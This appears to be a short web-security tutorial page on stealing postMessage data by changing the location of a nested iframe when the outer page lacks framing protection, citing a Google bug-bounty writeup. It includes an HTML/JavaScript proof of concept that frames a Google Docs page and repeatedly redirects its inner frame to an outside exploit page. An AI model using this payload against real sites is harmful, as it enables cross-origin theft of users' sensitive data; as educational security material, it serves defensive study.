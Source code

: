 # Steal postmessage modifying iframe location



## Changing child iframes locations

According to [**this writeup**](https://blog.geekycat.in/google-vrp-hijacking-your-screenshots/), if you can iframe a webpage without X-Frame-Header that contains another iframe, you can **change the location of that child iframe**.

For example, if abc.com have efg.com as iframe and abc.com didn't have X-Frame header, I could change the efg.com to evil.com cross origin using, **`frames.location`**.

This is specially useful in **postMessages** because if a page is sending sensitive data using a **wildcard** like `windowRef.postmessage("","*")` it's possible to **change the location of the related iframe (child or parent) to an attackers controlled location** and steal that data.

```html
<html>
    <iframe src="https://docs.google.com/document/ID" />
    <script>
       //pseudo code
        setTimeout(function(){ exp(); }, 6000);

        function exp(){
          //needs to modify this every 0.1s as it's not clear when the iframe of the iframe affected is created 
          setInterval(function(){ 
              window.frames[0].frame[0][2].location="https://geekycat.in/exploit.html";
          }, 100);
        }
    </script>
</html>
```


